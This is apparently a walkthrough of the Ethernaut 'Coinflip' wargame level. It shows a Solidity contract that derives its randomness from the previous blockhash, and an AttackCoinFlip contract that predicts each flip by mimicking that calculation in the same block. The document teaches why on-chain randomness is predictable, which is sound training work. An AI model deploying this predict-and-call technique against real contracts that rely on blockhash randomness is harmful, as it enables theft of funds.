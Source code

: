 ```yaml
---
description: randomness in blockchain
---
```


# 3 - Coinflip

Ethernaut Level3: [Coinflip](https://ethernaut.openzeppelin.com/level/0x90501cC20b65f603f847398740eaC4C9BE4873a9)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

### Goal of this level

* Guessing the correct outcome **10 times** in a row

## Walkthrough

<details>

<summary>Key to solve this problem 🔑</summary>

You can **mimic** the exact calculation of of the random number

</details>

Use Remix IDE!

```solidity
contract AttackCoinFlip {
    CoinFlip public coinFlipContract;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _instanceAddr) public{
        coinFlipContract = CoinFlip(_instanceAddr);
    }
    
    function makeGuess() public {

        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool guess = coinFlip == 1 ? true : false;

        coinFlipContract.flip(guess);
    }
}
```

Transaction to call `makeGuess()` and `flip()` will be mined in the same block, so the value of `block.number` will be the same.

You merely have to run `makeGuess()` function `10` times in a row.

Done! 😎

## Key Takeaway

* There's no such thing as true randomness in blockchain,\
  every thing is **deterministic**!



```
```

